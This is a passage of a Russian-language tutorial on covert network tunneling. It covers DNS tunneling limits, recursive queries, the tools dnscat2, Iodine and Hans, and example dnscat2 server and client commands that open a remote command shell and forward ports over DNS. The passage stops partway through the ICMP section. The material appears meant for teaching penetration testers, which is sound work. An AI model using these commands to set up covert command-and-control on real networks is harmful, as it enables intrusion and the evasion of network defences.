 Максимальная длина “OPCODE” равна 4 битам (0-16).

Особые условия DNS-туннелирования

- Максимум 253 символа в домене
- Максимум 63 символа на поддомен
- Нечувствительность к регистру (поэтому мы используем кодировку Base32)
- TXT-запрос для получения максимального количества символов в ответе

Особенности использования DNS-туннеля: рекурсивные запросы

Такие запросы позволяют не использовать прямое соединение с сервером управления или прокси, чтобы получать доступ. Это
поведение может быть очень полезно в изолированном периметре или сети с ограничениями к соединениям между узлами.

Утилиты для DNS-туннелирования

- **DNSCAT2** — инструмент, предназначенный для создания зашифрованного командно-контрольного канала (C&C) через
  протокол DNS,
  который является эффективным туннелем практически из любой сети
- **Iodine** — программное обеспечение, позволяющее туннелировать данные IPv4 через сервер DNS сервер: это может быть
  полезно

в различных ситуациях, когда доступ в интернет исключен, но DNS-запросы разрешены
Пример работы с DNSCAT2:

Запуск сервера:
> ./dnscat2.rb our-domain-server.org

Запуск клиента:
> ./dnscat2 our-domain-server.org

При подключении клиента к серверу вы сможете управлять с сервера терминальной оболочкой, исполняющей команды на агенте.

Пример проброса туннелирования трафика через DNS-туннель:

> listen 4444 10.0.1.3:80 — поднимет на стороне сервера порт 4444, который будет отправлять трафик на узел 10.0.1.3 на
> порт 80 на стороне агента
>

#### ICMP-туннелирование
ICMP-туннель — скрытый канал для передачи данных, организованный между двумя узлами, использующий IP-пакеты с типом
протокола ICMP.

Пример инструмента:

**Hans** — делает возможным туннелирование IPv4 через эхо-пакеты ICMP, поэтому его можно назвать туннелем для пинга. Это
может быть полезно в ситуации, когда доступ в Интернет перекрыт, но пинги разрешены.

Для запуска в качестве сервера (от имени root):
